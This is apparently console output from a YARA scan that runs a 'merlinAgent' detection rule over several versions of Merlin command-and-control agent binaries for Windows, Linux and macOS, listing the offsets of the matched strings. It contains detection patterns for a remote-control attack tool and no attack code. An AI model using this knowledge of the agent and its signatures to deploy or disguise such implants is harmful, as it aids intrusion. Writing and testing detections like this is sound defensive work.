merlinAgent C:\Users\admin\Desktop\Merlin\merlinAgent-Darwin-x64_v2.4.1\merlinAgent-Darwin-x64
merlinAgent C:\Users\admin\Desktop\Merlin\merlinAgent-Darwin-x64_v1.0.0\merlinAgent-Darwin-x64
merlinAgent C:\Users\admin\Desktop\Merlin\merlinAgent-Linux-x64_v1.1.0\merlinAgent-Linux-x64
merlinAgent C:\Users\admin\Desktop\Merlin\merlinAgent-Darwin-x64_v1.2.0\merlinAgent-Darwin-x64
merlinAgent C:\Users\admin\Desktop\Merlin\merlinAgent-Windows-x64_v1.1.0\merlinAgent-Windows-x64.exe
merlinAgent C:\Users\admin\Desktop\Merlin\merlinAgent-Windows-x64_v1.0.0\merlinAgent-Windows-x64.exe
merlinAgent C:\Users\admin\Desktop\Merlin\merlinAgent-Linux-x64_v1.0.0\merlinAgent-Linux-x64
merlinAgent C:\Users\admin\Desktop\Merlin\merlinAgent-Windows-x64_v1.2.0\merlinAgent-Windows-x64.exe
merlinAgent C:\Users\admin\Desktop\Merlin\merlinAgent-Windows-x64_v2.4.1\merlinAgent-Windows-x64.exe

C:\Users\admin\Desktop\yara-v4.5.2-2326-win64>yara64.exe test.yar C:\Users\admin\Desktop\Merlin -r -s
merlinAgent C:\Users\admin\Desktop\Merlin\merlinAgent-Linux-x64_v1.1.0\merlinAgent-Linux-x64
0x57c9e7:$x1: Command output:\x0D\x0A\x0D\x0A%s
0x579922:$s3: \x09Hostname: %s
0x57992f:$s4: \x09Platform: %s
0x579e2d:$s5: \x09User GUID: %s
merlinAgent C:\Users\admin\Desktop\Merlin\merlinAgent-Windows-x64_v1.1.0\merlinAgent-Windows-x64.exe
0x5b59a5:$x1: Command output:\x0D\x0A\x0D\x0A%s
0x5b1cec:$s3: \x09Hostname: %s
0x5b1cf9:$s4: \x09Platform: %s
0x5b238e:$s5: \x09User GUID: %s
merlinAgent C:\Users\admin\Desktop\Merlin\merlinAgent-Darwin-x64_v1.1.0\merlinAgent-Darwin-x64
0x57112a:$x1: Command output:\x0D\x0A\x0D\x0A%s
0x56e139:$s3: \x09Hostname: %s
0x56e146:$s4: \x09Platform: %s
0x56e5f3:$s5: \x09User GUID: %s
merlinAgent C:\Users\admin\Desktop\Merlin\merlinAgent-Darwin-x64_v1.2.0\merlinAgent-Darwin-x64
0x5bf00c:$x1: Command output:\x0D\x0A\x0D\x0A%s
0x5bbb80:$s3: \x09Hostname: %s
0x5bbb8d:$s4: \x09Platform: %s
0x5bc0a3:$s5: \x09User GUID: %s
merlinAgent C:\Users\admin\Desktop\Merlin\merlinAgent-Linux-x64_v1.0.0\merlinAgent-Linux-x64
0x577410:$x1: Command output:\x0D\x0A\x0D\x0A%s
0x5743bf:$s3: \x09Hostname: %s
0x5743cc:$s4: \x09Platform: %s
0x5748ca:$s5: \x09User GUID: %s
merlinAgent C:\Users\admin\Desktop\Merlin\merlinAgent-Linux-x64_v1.2.0\merlinAgent-Linux-x64
0x5cc199:$x1: Command output:\x0D\x0A\x0D\x0A%s
0x5c8c4a:$s3: \x09Hostname: %s
0x5c8c57:$s4: \x09Platform: %s
0x5c91be:$s5: \x09User GUID: %s
merlinAgent C:\Users\admin\Desktop\Merlin\merlinAgent-Windows-x64_v1.0.0\merlinAgent-Windows-x64.exe
0x5a76dd:$x1: Command output:\x0D\x0A\x0D\x0A%s
0x5a3b3d:$s3: \x09Hostname: %s
0x5a3b4a:$s4: \x09Platform: %s
0x5a41c3:$s5: \x09User GUID: %s
merlinAgent C:\Users\admin\Desktop\Merlin\merlinAgent-Darwin-x64_v1.0.0\merlinAgent-Darwin-x64
0x56b1f1:$x1: Command output:\x0D\x0A\x0D\x0A%s
0x568274:$s3: \x09Hostname: %s
0x568281:$s4: \x09Platform: %s
0x56872e:$s5: \x09User GUID: %s
merlinAgent C:\Users\admin\Desktop\Merlin\merlinAgent-Linux-x64_v2.4.1\merlinAgent-Linux-x64
0x6219b2:$x1: Command output:\x0D\x0A\x0D\x0A%s
0x61cde0:$s3: \x09Hostname: %s
0x61cded:$s4: \x09Platform: %s
0x61d588:$s5: \x09User GUID: %s
merlinAgent C:\Users\admin\Desktop\Merlin\merlinAgent-Windows-x64_v1.2.0\merlinAgent-Windows-x64.exe
0x608b04:$x1: Command output:\x0D\x0A\x0D\x0A%s
0x604902:$s3: \x09Hostname: %s
0x60490f:$s4: \x09Platform: %s
0x60501e:$s5: \x09User GUID: %s
merlinAgent C:\Users\admin\Desktop\Merlin\merlinAgent-Windows-x64_v2.4.1\merlinAgent-Windows-x64.exe
0x68230e:$x1: Command output:\x0D\x0A\x0D\x0A%s
0x67c278:$s3: \x09Hostname: %s
0x67c285:$s4: \x09Platform: %s
0x67cb64:$s5: \x09User GUID: %s
merlinAgent C:\Users\admin\Desktop\Merlin\merlinAgent-Darwin-x64_v2.4.1\merlinAgent-Darwin-x64
0x50c37a:$x1: Command output:\x0D\x0A\x0D\x0A%s
0x507857:$s3: \x09Hostname: %s
0x507864:$s4: \x09Platform: %s
0x507fa3:$s5: \x09User GUID: %s

C:\Users\admin\Desktop\yara-v4.5.2-2326-win64>
```
